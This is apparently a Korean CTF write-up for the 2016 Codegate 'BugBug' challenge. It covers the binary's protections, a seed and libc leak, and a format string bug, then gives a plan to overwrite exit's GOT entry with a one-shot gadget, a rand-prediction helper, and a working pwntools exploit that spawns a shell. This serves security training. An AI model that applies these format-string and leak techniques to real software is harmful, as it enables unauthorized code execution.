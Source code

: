 # [2016_CODEGATE] BugBug

### 메모리 보호 기법

```
root@inj3ct:~/labs/ctf/codegate_quals_2016/BugBug# checksec bugbug 
[*] '/root/labs/ctf/codegate_quals_2016/BugBug/bugbug'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



### 취약점1 - Seed Leak

```c
  unsigned int v0; // eax@1
  unsigned int v1; // eax@3
  int result; // eax@12
  int v3[6]; // [sp+4h] [bp-A4h]@4
  int v4[6]; // [sp+1Ch] [bp-8Ch]@2
  char buf; // [sp+34h] [bp-74h]@5
  unsigned int ptr; // [sp+98h] [bp-10h]@5
  FILE *stream; // [sp+9Ch] [bp-Ch]@5

  v0 = 0;
  do
  {
    v4[v0] = 0;
    ++v0;
  }
  while ( v0 < 6 );
  v1 = 0;
  do
  {
    v3[v1] = 0;
    ++v1;
  }
  while ( v1 < 6 );
  setvbuf(stdout, 0, 2, 0);
  stream = fopen("/dev/urandom", "rb");
  fread(&ptr, 4u, 1u, stream);
  fclose(stream);
  srand(ptr);
  printf("\nWho are you? ");
  read(0, &buf, 0x64u);
  printf("\nHello~ %s\n", &buf);
```

buf에 0x64만큼의 값을 memory leak이 발생합니다. 랜덤의 seed 값을 알아낼 수 있고 이를 통해 libc의 base도 구할 수 있습니다.



### 취약점2 - Format String Bug

```c
  if ( result )
  {
    printf("Congratulation, ");
    printf(&buf);
    puts("You Win!!\n");
    exit(0);
  }
```

FSB가 발생합니다.



### Exploit 시나리오

1. Seed값과 libc의 값을 알아낸다.
2. Random 값을 알아내서 FSB가 발생하는 루틴으로 들어간다.
   - FSB가 발생하면 exit의 got를 덮어씌우면 되는데 릭된 libc의 값을 format string에 작성할 수 없다.
   - format string을 입력받고 난 후에야 libc값이 노출되기 때문이다. 즉, 한번만으로는 shell을 획득할 수가 없다.
3. exit의 got를 format string을 입력받는 곳으로 조작한다.
4. 릭된 libc base 값을 통해 one-shot gadget의 위치를 계산한 후, format string을 입력한다.
5. 다시 랜덤 값을 알아낸 후 FSB가 발생하는 루틴으로 들어가면 Exploit된다.



### Code

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	puts(argv[1]);
	srand(atoi(argv[1]));
	printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
	
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
        printf("%d\n", rand()%45+1);
	return 0;
} 
```

랜덤 값을 알아내는 C 파일



```
from pwn import *
import subprocess

def randomNo(randomNumber):
	r = process(["./rand",str(randomNumber)])
	r.recvline()[:-1]
	payload = ""
	payload += r.recvline()[:-1] + " "
	payload += r.recvline()[:-1] + " "
	payload += r.recvline()[:-1] + " "
	payload += r.recvline()[:-1] + " "
	payload += r.recvline()[:-1] + " "
	payload += r.recvline()[:-1] + " "

	payload2 =""
	payload2 += r.recvline()[:-1] + " "
        payload2 += r.recvline()[:-1] + " "
        payload2 += r.recvline()[:-1] + " "
        payload2 += r.recvline()[:-1] + " "
        payload2 += r.recvline()[:-1] + " "
        payload2 += r.recvline()[:-1] + " "
	r.close()
	return [payload,payload2]

p = process("./bugbug")
context.clear(arch='i386')

# first overwirte : For leaking libc base
fm=fmtstr_payload(17,{0x0804a024:0x08048843},write_size='byte')
payload = ""
payload+=fm
payload+="a"*(0x64-len(payload))

p.recv()
p.sendline(payload)
p.recvuntil(payload)
leaked = p.recv()
randomNumber = u32(leaked[0:4])
libcbase = u32(leaked[8:12])-(0xf76c53dc-0xf7513000)

log.info("random no : "+str(randomNumber))
log.info("libc base : "+hex(libcbase))

payload,payload2 = randomNo(randomNumber)
p.sendline(payload)
print p.recv()


# second overwrite : exploit
oneshot = libcbase+0x5fbc6
log.info("one-shot gadget : " +hex(oneshot))
fm=fmtstr_payload(19,{0x0804a024:oneshot},write_size='byte')
payload = ""
payload+=fm
payload+="a"*(0x64-len(payload))

p.sendline(payload)
p.recv()
p.sendline(payload2)
p.interactive()
```

익스플로잇 코드